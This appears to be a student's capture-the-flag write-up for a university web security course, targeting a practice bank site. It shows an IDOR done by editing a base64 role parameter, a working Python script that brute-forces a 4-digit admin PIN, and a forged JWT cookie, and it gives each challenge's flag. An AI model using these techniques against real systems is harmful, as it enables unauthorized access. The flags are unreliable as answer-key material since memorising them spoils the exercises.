### IDOR
#### COMP6443{I_Luv_Id0R_z5346077_TD2lfzVFaJXYYHGHXvdI}
1. Open a file and pay attention to the url, e.g. `https://files.quoccabank.com/document/nothing_to_see_here?r=YWRtaW4=`. 
2. The url consists of `https://files.quoccabank.com/document/<filename>?r=<base64(role)>`. 
3. Try to access flag file through the url: `https://files.quoccabank.com/document/flag?r=YWRtaW4=`, where filename: *flag* and role: *admin*. 

### Security misconfigurations
#### Warning! COMP6443{BrUt3_f0rCE_B35t_f0rCE_z5346077_W2/7Nnfofp+rYHib5Cg5}
1. Recon - check `robots.txt`. It leaks the disallowed path: `/admin`.
2. Go to the `https://files.quoccabank.com/admin`. 
3. Brute-force the 4-digit access code.
```python
import requests
from urllib3.exceptions import InsecureRequestWarning

requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

for d1 in range(0, 10):
    for d2 in range(0, 10):
        for d3 in range(0, 10):
            for d4 in range(0, 10):
                pin = str(d1) + str(d2) + str(d3) + str(d4)
                data = {}
                data["pin"] = pin
                print(f"Trying pin: {pin}")
                r = requests.post(f"https://files.quoccabank.com/admin", allow_redirects=False, proxies=proxies, verify=False, data=data)
                if r.status_code == 302 or "COMP" in r.text:
                    f = open("flags.txt", "w")
                    f.write(r.text)
                    break
            else:
                continue
            break
        else:
            continue
        break
    else:
        continue
    break

```

## Notes
### Cookie poisoning
#### COMP6443{IT_D0ESn7_eVen_V3r1Fy}
1. Check cookie. The cookie is jwt encoded.
2. Decode the cookie with jwt decoder.
3. Manipulate the payload by setting the username to *admin* and increasing the expiry date: *{"Username": "admin@quoccabank.com", "exp": 1782924959}*. 
